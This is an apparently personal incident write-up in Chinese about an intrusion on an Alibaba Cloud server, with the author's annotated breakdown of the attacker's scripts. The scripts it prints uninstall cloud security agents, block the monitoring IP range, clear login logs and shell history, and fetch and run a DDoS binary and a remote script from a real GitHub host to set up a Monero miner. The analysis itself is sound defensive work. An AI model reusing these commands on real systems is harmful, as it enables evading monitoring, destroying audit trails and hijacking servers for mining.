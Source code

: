 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。

## xz.sh部分，即卸载脚本

参考信息源：

* [bili_62374023667-linux下ETH转发服务器+ETH抽水教程，支持SSL加密+删除阿狸监控避免上报](https://www.bilibili.com/read/cv15054271/)
* [csdn-linux+agent卸载_华为云服务器卸载agent监控服务Linux+windows教程](https://blog.csdn.net/weixin_33148621/article/details/113900993)
* [CentOS服务器清除用户登录记录和命令历史方法](https://blog.csdn.net/cljdsc/article/details/123358983)
* [Linux基础：history命令](https://blog.51cto.com/skypegnu1/1941153)

黑客核心代码解读

```
# 首先是下载阿里云盾卸载脚本
wget http://update.aegis.aliyun.com/download/uninstall.sh
chmod +x uninstall.sh && ./uninstall.sh
# 然后屏蔽掉云盾IP
iptables -I INPUT -s 140.205.201.0/28 -j DROP
# 进行恶意卸载云盾等其他组件服务
sh /usr/local/qcloud/stargate/admin/uninstall.sh
# 还把监控都给停止了
service telescoped stop
# 清除系统登录成功命令历史记录
echo > /var/log/wtmp 
# 清除登陆系统失败的记录
echo > /var/log/btmp
# 导入空记录，清除历史执行命令
echo > .bash_history
# 清除历史执行命令并保存。
history -c && history -w
# 删掉脚本
rm -rf cd /root/uninstall.sh
```

## k.sh，即杀死进程脚本

参考信息源：

* [Shell 文件或目录操作符（-e、-d、-f、-r、-w、-x）](https://blog.csdn.net/zz00008888/article/details/122360612)

黑客核心代码解读

```
# 结束dos26（可能为ddos）
killall -9 dos26
# 结束不明程序（命名不知其意）
killall -9 tfq
# 结束挖矿程序
killall -9 xmrig
# 删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 判断对象是否有可写(Write)权限，是则为真
if [ ! -w "/tmp/dos64" ]; then
# 进入目录，下载恶意dos，赋予读写及执行权限，并执行
    cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos64;chmod 777 dos64;./dos64
fi
if [ ! -w "/root/c3pool/xmrig" ]; then
# 下载恶意靶机脚本执行
    curl -s -L https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/ba.sh | bash -s
fi
# 又一次删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 休眠，删掉挖矿记录文件
sleep 88;rm -rf cd /root/c3pool
```

## bk.sh，推测是靶机脚本

### if语句检测环境内容

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [Shell中的exit 0 和 exit 1是做什么的?](https://www.pianshen.com/article/37962128580/)
* [博客园-shell中的type命令](https://www.cnblogs.com/chaoguo1234/p/5723531.html)

```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi
```

### if curl、lscpu、 ! sudo -n true

参考信息源；

* [Linux /dev/null详解](https://www.shuzhiduo.com/A/6pdDP9ALdw/)

```
# 找不到curl命令定义，则丢入黑洞。
if ! type curl >/dev/null; then
  echo "ERROR: This script requires \"curl\" utility to work correctly"
  exit 1
fi

# `sudo -n true 2`返回“一个密码请求”的定义信息
if ! sudo -n true 2>/dev/null; then
  if ! pidof systemd >/dev/null; then
    echo "ERROR: This script requires systemd to work correctly"
    exit 1
  fi
```

### echo信息

echo部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

